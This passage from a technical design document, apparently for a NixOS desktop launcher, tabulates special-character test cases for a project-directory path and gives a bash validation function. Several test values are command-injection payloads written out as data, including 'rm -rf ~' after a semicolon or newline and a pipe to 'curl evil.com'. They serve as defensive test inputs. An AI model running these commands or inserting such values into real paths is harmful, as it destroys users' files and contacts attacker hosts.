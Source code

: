 ## 3. Special Character Handling & Edge Cases

### Test Cases for PROJECT_DIR

| Test Case | Path | Expected Behavior | Security Risk |
|-----------|------|-------------------|---------------|
| **Spaces** | `/home/user/My Projects/nixos` | Single argument to command | Word splitting if unquoted |
| **Dollar sign** | `/home/user/$projects/nixos` | Literal `$projects` in path | Variable expansion if unquoted |
| **Backtick** | `/home/user/\`cmd\`/nixos` | Literal backtick in path | Command substitution if unquoted |
| **Semicolon** | `/tmp/dir; rm -rf ~` | Should error (invalid path) | Command injection if eval'd |
| **Pipe** | `/tmp/dir \| curl evil.com` | Should error (invalid path) | Command injection if eval'd |
| **Ampersand** | `/tmp/dir & malware` | Should error (invalid path) | Background execution if eval'd |
| **Quotes** | `/home/user/"my dir"/nixos` | Literal quotes in path | Quote escaping issues |
| **Newline** | `/tmp/dir\nrm -rf ~` | Should error (invalid path) | Multi-command injection |
| **Null byte** | `/tmp/dir\x00` | Should error (invalid path) | Null byte injection |
| **Unicode** | `/home/user/日本語/nixos` | UTF-8 path preserved | Encoding issues |

### Validation Strategy

**Pre-Launch Validation**:
```bash
#!/usr/bin/env bash
# Validate project directory before substitution

validate_project_dir() {
    local dir="$1"

    # Must be absolute path
    [[ "$dir" = /* ]] || return 1

    # Must exist and be a directory
    [[ -d "$dir" ]] || return 1

    # Must not contain newlines (filesystem allows but suspicious)
    [[ "$dir" = *$'\n'* ]] && return 1

    # Must not contain null bytes (always invalid)
    [[ "$dir" = *$'\0'* ]] && return 1

    return 0
}
```

### Desktop File Escaping Rules
